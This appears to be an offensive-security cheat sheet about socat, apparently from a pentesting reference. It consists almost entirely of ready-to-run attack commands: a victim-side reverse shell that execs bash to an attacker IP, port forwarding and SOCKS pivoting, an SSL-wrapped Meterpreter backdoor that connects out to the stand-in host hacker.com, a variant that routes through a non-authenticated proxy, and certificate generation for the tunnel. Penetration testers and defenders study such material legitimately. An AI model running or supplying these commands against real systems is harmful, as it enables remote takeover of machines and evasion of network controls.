 ### Reverse shell

```bash
attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```

### Port2Port

```bash
socat TCP4-LISTEN:<lport>,fork TCP4:<redirect_ip>:<rport> &
```

### Port2Port through socks

```bash
socat TCP4-LISTEN:1234,fork SOCKS4A:127.0.0.1:google.com:80,socksport=5678
```

### Meterpreter through SSL Socat

```bash
#Create meterpreter backdoor to port 3333 and start msfconsole listener in that port
attacker> socat OPENSSL-LISTEN:443,cert=server.pem,cafile=client.crt,reuseaddr,fork,verify=1 TCP:127.0.0.1:3333
```

```bash
victim> socat.exe TCP-LISTEN:2222 OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|TCP:hacker.com:443,connect-timeout=5
#Execute the meterpreter
```

You can bypass a **non-authenticated proxy** executing this line instead of the last one in the victim's console:

```bash
OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|PROXY:hacker.com:443,connect-timeout=5|TCP:proxy.lan:8080,connect-timeout=5
```

[https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/](https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/)

### SSL Socat Tunnel

**/bin/sh console**

Create certificates on both sides: Client and Server

```bash
# Execute these commands on both sides
FILENAME=socatssl
openssl genrsa -out $FILENAME.key 1024
openssl req -new -key $FILENAME.key -x509 -days 3653 -out $FILENAME.crt
cat $FILENAME.key $FILENAME.crt >$FILENAME.pem
chmod 600 $FILENAME.key $FILENAME.pem
```
